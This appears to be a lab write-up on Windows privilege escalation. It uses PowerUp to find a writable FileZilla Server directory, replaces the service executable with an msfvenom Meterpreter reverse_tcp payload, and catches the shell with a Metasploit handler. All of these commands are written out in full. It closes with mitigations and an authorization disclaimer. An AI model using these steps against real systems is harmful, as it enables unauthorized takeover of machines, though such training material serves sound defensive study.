# Windows privilege escalation via Weak Permissions with PowerSploit

This report documents a hands‑on privilege escalation process on a Windows target using PowerSploit's `PowerUp.ps1` and exploiting weak folder permissions (FileZilla Server installation directory). Steps include cloning and transferring PowerSploit, running the `PowerUp` audit, generating a malicious executable on Kali, hosting it, and obtaining a Meterpreter reverse shell.

---


## Prerequisites

* Kali Linux (attacker)
* Windows target machine (victim)
* Python (for `python -m http.server`) or `SimpleHTTPServer` to host files on Kali
* Metasploit Framework (for msfconsole and multi/handler)

---

## 1. Clone PowerSploit on Kali

Clone the PowerSploit repository on the Kali machine and change into the directory.

```bash
git clone https://github.com/secabstraction/PowerSploit
cd PowerSploit
```



---

## 2. Transfer PowerSploit to the target machine

Host the archive on Kali and download it from the Windows target using `Invoke-WebRequest`.

On Kali (create archive and host):

```bash
tar -czf PowerSploit.tar.gz PowerSploit
python3 -m http.server 8000
```

On Windows (PowerShell):

```powershell
Invoke-WebRequest -Uri "http://KALI_IP:8000/PowerSploit.tar.gz" -OutFile PowerSploit.tar.gz
```



Extract the archive on the Windows machine:

```powershell
tar -xzf PowerSploit.tar.gz
```


Remove the archive after extraction:

```powershell
Remove-Item PowerSploit.tar.gz
```



---

## 3. Navigate to the `Privesc` directory and run `PowerUp` audit

Change directory into the `Privesc` folder and list the scripts.

```powershell
cd \Users\PC1\PowerSploit\Privesc
Get-ChildItem
```



Import `PowerUp.ps1` and execute the audit:

```powershell
. .\PowerUp.ps1
Invoke-AllChecks    # or run the provided PrivescAudit function as available
```



Run the full audit to enumerate privilege escalation vectors:



---

## 4. Identify weak permissions on FileZilla installation

Check Access Control List (ACL) of the FileZilla Server directory to see if the current user has write/modify permissions.

```powershell
Get-Acl "C:\Program Files (x86)\FileZilla Server" | Format-List
```



In this scenario, the ACL showed that we have the ability to modify the FileZilla Server directory.

---

## 5. Create a malicious executable on Kali

Use `msfvenom` to create a Windows Meterpreter payload and save it with the same name as the FileZilla Server executable to abuse weak permissions.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f exe > "FileZilla Server.exe"
```



Host the file with a simple HTTP server for transfer to the target.



---

## 6. Prepare Metasploit multi/handler

Start `msfconsole` and configure a `multi/handler` to catch the reverse connection:

```text
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <KALI_IP>
set LPORT 4444
exploit
```





---

## 7. Transfer and execute malicious binary on the target

Download the malicious `FileZilla Server.exe` into the targeted FileZilla directory using PowerShell's `Invoke-WebRequest` or by manually copying it into the directory where permissions allow modification.



Then, from the target machine, launch the executable (double-click in Explorer or run via PowerShell/CMD):



---

## 8. Obtain a Meterpreter session

After execution, Metasploit's handler receives the connection and spawns a Meterpreter session.



Confirm you are on the target machine by running interactive shell and `whoami`:

```text
shell
whoami
```



---

## 9. Notes, mitigations and ethics

**Important:** This documentation describes offensive security techniques for educational purposes only. Always gain explicit written authorization before testing systems you do not own.

**Mitigations:**

* Remove unnecessary or insecure services.
* Harden ACLs: restrict write/modify access on program install directories to administrators only.
* Use AppLocker / Windows Defender Application Control to block unauthorized executables in protected locations.
* Monitor for unexpected service binary modifications and unexpected network callbacks.

---

**Reference:**

https://github.com/PowerShellMafia/PowerSploit
